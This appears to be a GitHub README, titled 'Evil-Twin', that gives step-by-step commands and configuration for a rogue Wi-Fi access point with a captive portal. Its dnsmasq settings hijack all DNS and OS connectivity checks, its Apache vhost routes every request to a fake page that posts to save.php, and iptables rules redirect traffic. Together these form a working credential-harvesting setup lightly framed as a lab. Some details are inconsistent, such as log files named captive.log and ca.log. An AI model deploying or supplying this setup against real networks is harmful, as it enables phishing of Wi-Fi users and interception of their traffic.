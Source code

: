 # Evil-Twin
Set up your LAB
install:
```bash
sudo apt update
sudo apt install -y hostapd dnsmasq lighttpd php
``  

```
dnsmasq.conf file:
```bash
interface=wlan0
bind-interfaces
no-resolv
log-queries

dhcp-range=192.168.50.10,192.168.50.100,12h
dhcp-option=3,192.168.50.1
dhcp-option=6,192.168.50.1

address=/#/192.168.50.1

address=/captive.apple.com/192.168.50.1
address=/www.msftconnecttest.com/192.168.50.1
address=/connectivitycheck.gstatic.com/192.168.50.1

```

hostapd.conf:
```bash
interface=wlan0
driver=nl80211
ssid=LabPortal
hw_mode=g
channel=6
auth_algs=1
wmm_enabled=0
```



wlan0 interface:
```bash
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
sudo ip addr add 192.168.50.1/24 dev wlan0
sudo ip link set wlan0 up

```

PHP + Apache:
```bash
sudo apt update
sudo apt install -y apache2 php libapache2-mod-php
sudo systemctl enable --now apache2
```

start:
```bash
sudo hostapd hostapd.conf
sudo dnsmasq -C dnsmasq.conf
```

New Models:
```bash
sudo a2enmod rewrite
sudo a2enmod headers
sudo systemctl restart apache2
```

Create Folder:
```bash
sudo mkdir -p /var/www/captive
```
Create File:
```bash
/var/www/captive/index.html
/var/www/captive/save.php
```
Create Log file:
```bash
touch /var/log/captive.log
```
Permission to log file:
```bash
sudo chown www-data:www-data /var/log/ca.log
sudo chmod 640 /var/log/ca.log
```

New Vhost:
```bash
nano /etc/apache2/sites-available/captive.conf
```
```bash
<VirtualHost *:80>
    ServerName captive.portal
    ServerAlias *
    DocumentRoot /var/www/captive


    <Directory /var/www/captive>
        AllowOverride All
        Require all granted
    </Directory>

 
    # iOS/macOS
    Alias /hotspot-detect.html /var/www/captive/index.html
    # Android
    Alias /generate_204 /var/www/captive/index.html
    # Windows
    Alias /connecttest.txt /var/www/captive/index.html

   
    RewriteEngine On
    RewriteCond %{REQUEST_URI} !^/save\.php$
    RewriteRule ^.*$ /index.html [L]

    Header always set Cache-Control "no-store, no-cache, must-revalidate, max-age=0"
    Header always set Pragma "no-cache"
    Header always set Expires "0"
</VirtualHost>
```
```bash
sudo a2ensite captive.conf
sudo a2dissite 000-default.conf
sudo systemctl reload apache2
```


IpTables:
```bash
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-ports 80
sudo iptables -t nat -A PREROUTING -i wlan0 -p udp --dport 53 -j REDIRECT --to-ports 53
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 53 -j REDIRECT --to-ports 53


```
